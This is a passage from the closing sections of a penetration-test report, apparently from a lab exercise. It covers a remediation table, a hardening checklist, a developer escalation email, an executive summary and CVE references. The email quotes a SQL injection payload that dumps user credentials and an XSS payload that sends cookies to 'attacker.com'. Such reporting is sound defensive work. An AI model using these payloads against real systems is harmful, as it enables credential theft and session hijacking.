| 12 | Directory Listing Enabled | `Options -Indexes` in Apache config |
| 13 | Missing Security Headers | Add X-Frame-Options, CSP, HSTS, X-Content-Type-Options |
| 14 | Outdated Apache (2.2.8) | Upgrade to Apache 2.4.x LTS |

### 9.4 Web Application Hardening Checklist

```
☑ Use prepared statements for all database queries
☑ Encode all user-controlled output (HTML, JS, URL context)
☑ Implement Content Security Policy (CSP) header
☑ Enable HTTPS and HSTS; disable HTTP
☑ Apply principle of least privilege to DB user
☑ Remove phpinfo.php and default files
☑ Disable directory listing
☑ Rotate all default credentials
☑ Implement WAF (ModSecurity) as defence-in-depth
☑ Conduct quarterly vulnerability scans
```

---

## 10. Escalation Email to Developers

> This is a 100-word escalation email template for communicating critical findings to the development team.

---

**To:** dev-team@example.com
**From:** vapt-team@cyart.io
**Subject:** 🚨 URGENT — Critical Vulnerabilities Identified in Web Application — Immediate Patch Required

---

Hi Team,

Our recent VAPT assessment has identified **two critical vulnerabilities** requiring immediate attention:

**1. SQL Injection** (CVSS 9.1) — An attacker can dump the entire user database without authentication. PoC: `id=1' UNION SELECT username,password FROM users--`

**2. Reflected XSS** (CVSS 7.4) — User sessions can be hijacked. PoC: `<script>document.location='http://attacker.com?c='+document.cookie</script>`

**Action Required:**
- Replace all raw SQL with parameterised queries
- Encode all user-controlled output

Please prioritise patches within **48 hours**. Full report attached.

— CyArt VAPT Team

---

## 11. Non-Technical Executive Briefing

> A 100-word plain-language summary for non-technical stakeholders.

---

Our security team conducted a full simulated cyberattack against our lab systems this week. We found **17 vulnerabilities**, including 6 rated Critical — the highest possible risk level.

The most serious finding: an attacker with basic tools could gain **complete control** of a server in under five minutes, without needing a username or password. They could read all user data, install malicious software, and cover their tracks.

We also confirmed that our web application is vulnerable to **SQL injection** and **cross-site scripting**, which could expose customer accounts.

Immediate patching is underway. All critical issues will be resolved within 48 hours.

---

## 12. Appendix — Evidence & References

### A. CVE References

| CVE | Description | CVSS |
|-----|-------------|------|
| CVE-2007-2447 | Samba username map script RCE | 10.0 |
| CVE-2011-2523 | vsftpd 2.3.4 backdoor | 10.0 |
| CVE-2010-2075 | UnrealIRCd backdoor | 10.0 |
| CVE-2004-2687 | distccd remote code execution | 9.3 |
| CVE-2021-41773 | Apache path traversal / RCE | 9.8 |
| CVE-2012-1823 | PHP CGI argument injection | 7.5 |

### B. Tool Documentation

- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [OpenVAS / GVM Documentation](https://greenbone.github.io/docs/)
- [Metasploit Framework Docs](https://docs.metasploit.com/)
- [sqlmap User Manual](https://sqlmap.org/)
- [Burp Suite Documentation](https://portswigger.net/burp/documentation)
- [OWASP WSTG](https://owasp.org/www-project-web-security-testing-guide/)
- [PTES Standard](http://www.pentest-standard.org/)
- [CVSS v4.0 Calculator](https://www.first.org/cvss/calculator/4.0)
- [Exploit-DB](https://www.exploit-db.com)

---

